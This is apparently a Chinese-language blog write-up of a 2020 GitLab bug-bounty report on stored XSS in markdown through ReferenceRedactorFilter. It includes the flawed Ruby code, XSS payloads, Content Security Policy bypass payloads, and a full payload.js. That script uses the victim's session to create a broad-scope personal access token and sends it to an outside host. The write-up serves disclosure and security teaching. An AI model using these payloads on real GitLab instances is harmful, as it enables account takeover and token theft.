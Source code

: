 
gitlab漏洞系列-存在于markdown中的存储型XSS

声明：文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由用户承担全部法律及连带责任，文章作者不承担任何法律及连带责任。


## 背景
vakzz大佬于2020年提交了这个漏洞:
可以通过`ReferenceRedactorFilter`将任意html注入到标记中。这是因为data-original属性允许存储html编码的数据，然后将其提取并用作链接内容。如果原始数据已经被html编码，那么它将在编校后被未编码:
```ruby
    def redacted_node_content(node)  
      original_content = node.attr('data-original')  
      link_reference = node.attr('data-link-reference')

      # Build the raw <a> tag just with a link as href and content if  
      # it's originally a link pattern. We shouldn't return a plain text href.  
      original_link =  
        if link_reference == 'true'  
          href = node.attr('href')  
          content = original_content

          %(<a href="#{href}">#{content}</a>)  
        end

      # The reference should be replaced by the original link's content,  
      # which is not always the same as the rendered one.  
      original_link || original_content || node.inner_html  
    end  
```

## 复现步骤
1.用一个账户创建一个私有项目;

2.在这个私有项目中创建一个issue;

3.登出,然后重新以另外一个账户登录,此账户没有权限查看上面那个私有项目;

4.使用以下链接对与私人issue相关的issue发表评论:
```
link: <a href="https://gitlab.com/wbowling/private-project/-/issues/1" title="title">xss &lt;img onerror=alert(1) src=x></a> 
```
5.渲染的markdown包含了注入的html:
```
<div class="md"><p data-sourcepos="1:1-1:124" dir="auto">link: <a href="https://gitlab.com/wbowling/private-project/-/issues/1">xss <img onerror="alert(1)" src="x"></a></p></div> 
```

6.上面的代码被csp机制阻止了，但是可以像`https://hackerone.com/reports/662287#activity-6026826`(主要逻辑就是创建了一个类为`class='atwho-view select2-drop-mask pika-select' `的图像)一样绕过(需要点击页面上的任何地方，但是链接是全屏的):
```
link: <a href="https://gitlab.com/wbowling/private-project/-/issues/1" title="title">csp   
&lt;a   
  data-remote=&quot;true&quot;  
  data-method=&quot;get&quot;  
  data-type=&quot;script&quot;  
  href=/wbowling/wiki/raw/master/test.js  
  class='atwho-view select2-drop-mask pika-select'  
&gt;  
  &lt;img height=10000 width=10000&gt;  
&lt;/a&gt;  
</a>  
```
产生了以下html:
```
<div class="md issue-realtime-trigger-pulse"><p data-sourcepos="1:1-11:4" dir="auto">link: <a href="https://gitlab.com/wbowling/private-project/-/issues/1">csp  
</a><a data-remote="true" data-method="get" data-type="script" href="/wbowling/wiki/raw/master/test.js" class="atwho-view select2-drop-mask pika-select">  
<img height="10000" width="10000">  
</a>  
</p></div>  
```
## 影响
在ReferenceRedactor运行的任何地方，都可以注入任意的html。用户可以设置自己的私人项目，然后在公共项目上发表评论或问题，链接到该项目并注入xss


## 绕过csp示例
这里并不需要与用户交互
https://gitlab.com/username/project-name/-/issues/1
```
link: <a href="https://gitlab.com/wbowling/private-project/-/issues/1" title="title">csp &lt;script src=&quot;/username/public/-/raw/master/test.js&quot;&gt;&lt;/script&gt; </a>
```
如果你通过git lfs(大文件存储,具体可以参考https://docs.github.com/en/repositories/working-with-files/managing-large-files/installing-git-large-file-storage)添加了一个javascript文件，那么它将会以 `content-type`为application/javascript结束，并且可以作为一个脚本src使用，因为在csp中`script-src 'self'`。
```
$ curl -I 'https://gitlab.com/vakzz-h1/public/-/raw/master/test.js'
HTTP/2 200
date: Thu, 02 Apr 2020 03:39:57 GMT
content-type: application/javascript
...
```
还有一个例子用来展示影响，如果你点击ok，它会创建一个个人令牌(注意是包含所有范围的令牌,注:gitlab里面的scopes指的是类似读，写仓库之类的权限,就是说拿到这个令牌,你可以对某个仓库进行读写操作,我这里只说大致的逻辑，方便读者理解)，并发送到远程服务器。xss可以隐藏在一个问题或评论中，并且可以触发任何查看页面的人。
issue的链接为:
`https://gitlab.com/vakzz-h1/stored-xss/-/issues/4`
填写在这个issue里面的code为:
```
<a href="https://gitlab.com/wbowling/private-project/-/issues/1" title="title">create and leak an access token 
&lt;script src=&quot;/vakzz-h1/public/-/raw/master/payload.js&quot;&gt;&lt;/script&gt;
</a>
```
payload.js为:
```JavaScript
async function getToken() {
const formData = new FormData();

formData.append(
document.querySelector('meta[name="csrf-param"]').content,
document.querySelector('meta[name="csrf-token"]').content
);
formData.append("personal_access_token[name]", "test");
formData.append("personal_access_token[scopes][]", "api");
formData.append("personal_access_token[scopes][]", "read_user");
formData.append("personal_access_token[scopes][]", "read_repository");
formData.append("personal_access_token[scopes][]", "write_repository");
formData.append("personal_access_token[scopes][]", "read_registry");

const response = await fetch(
"https://gitlab.com/profile/personal_access_tokens",
{
credentials: "include",
body: formData,
method: "POST",
mode: "cors"
}
);

const parser = new DOMParser();
const doc = parser.parseFromString(await response.text(), "text/html");
return doc.querySelector("#created-personal-access-token").value;
}

if (confirm("Create an access token?")) {
getToken().then(token => {
alert("Created token is: " + token);
const image = new Image();
image.src = `//aw.rs/g/leak.gif?token=${token}`;
});
}


```


## 后续
这个漏洞官方给了5000美元



